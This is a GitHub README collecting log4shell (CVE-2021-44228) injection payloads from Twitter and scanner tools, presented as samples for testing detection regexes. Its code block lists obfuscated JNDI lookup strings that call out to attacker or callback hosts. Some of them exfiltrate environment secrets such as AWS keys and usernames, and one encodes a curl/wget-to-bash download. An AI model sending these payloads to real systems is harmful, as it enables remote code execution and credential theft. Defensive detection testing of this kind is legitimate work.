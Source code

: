 # Payload samples

This is a list of [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) payloads seen on my twitter feeds.

The goal is to allows testing detection regexes defined in protection systems.

## Sources & credits

* https://twitter.com/h4x0r_dz/status/1469663187079417857/photo/1
* https://twitter.com/ymzkei5/status/1469765165348704256
* https://twitter.com/sirifu4k1/status/1469524530255511552
* https://twitter.com/BountyOverflow/status/1470001858873802754
* https://twitter.com/entropyqueen_/status/1469961345848299520
* https://twitter.com/anthrax0/status/1470276303773663233
* https://twitter.com/log4j2rce/status/1469799982630944770
* https://twitter.com/11xuxx/status/1471236310299906050
* https://twitter.com/11xuxx/status/1471826191724257285
* https://github.com/projectdiscovery/nuclei-templates/pull/3334/files
* https://github.com/PortSwigger/log4shell-scanner/blob/master/src/main/kotlin/burp/BurpExtender.kt#L70
* https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/src/main/java/log4j.java
* https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/src/main/java/burp/BurpExtender.java#L84
* https://github.com/fullhunt/log4j-scan/blob/master/log4j-scan.py#L52
* https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py#L9
* https://docs.google.com/document/d/15V4EmDcOl4Mog5-If-Mv3-ZoRcf9-RsGSWlqYte3zho/edit
* https://www.cyberkendra.com/2021/12/log4shell-advisory-resource-cheat-sheet.html
* https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html

## Value collections

* https://github.com/Neo23x0/log4shell-detector/tree/main/tests/test-cases
* https://github.com/whwlsfb/Log4j2Scan/tree/master/src/main/java/burp/poc/impl

## Values gathered

> When a source was not an image then values provided were added to the list below.

💡 Note that `:/` instead of `://` is effective too.

```text
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://1234.${hostName}.com}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}},
${${::-j}nd${::-i}:
${${::-j}ndi:
${${::-j}ndi:dns://${env:USERNAME}.c6roi3ia89k5kj1mes60cg5a1doyyyyyn.interactsh.com}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://{{callback_host}}/{{random}}},
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host/{{random}}},
${${lower:jndi}:${lower:rmi}://dslepf.dnslog.cn/tem}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:jndi}:${lower:rmi}://{{callback_Host}}/{{random}}},
${${lower:jnd}${lower:${upper:ı}}:ldap://...}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://xxx
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}},
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dslepf.dnslog.cn/tem}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}},
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${upper:p}://somesitehackerofhell.com/z}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://1234.${hostName}.com}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }
${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}
${jndi:dns://${env:COMPUTERNAME}.uedo81.dnslog.cn/a}
${jndi:dns://${env:USERDOMAIN}.qnfw43.dnslog.cn/a}
${jndi:dns://${hostName}.uedo81.dnslog.cn/a}
${jndi:dns://aeutbj.example.com/ext}
${jndi:dns://{{callback_host}}}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.badserver.com} 
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${env:USER}.attacker.server/}
${jndi:ldap://${env:user}.uedo81.dnslog.cn/exp}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://45.155.205[.]233[:]12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC9bdmljdGltIElQXTpbdmljdGltIHBvcnRdfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0L1t2aWN0aW0gSVBdOlt2aWN0aW0gcG9ydF0pfGJhc2gK}
${jndi:ldap://dslepf.dnslog.cn/exp}
${jndi:ldap://somesitehackerofhell.com/z}
${jndi:rmi://a.b.c}
${jndi:rmi://{{callback_host}}},
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${k8s:k5:-ND}i${sd:k5:-:}
j${loWer:Nd}i${uPper::}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
jn${date:}di${date:':'}
jn${env::-}di:
${jnd${123%25ff:-${123%25ff:-i:}}ldap://mydogsbutt.com:1389/o}
```
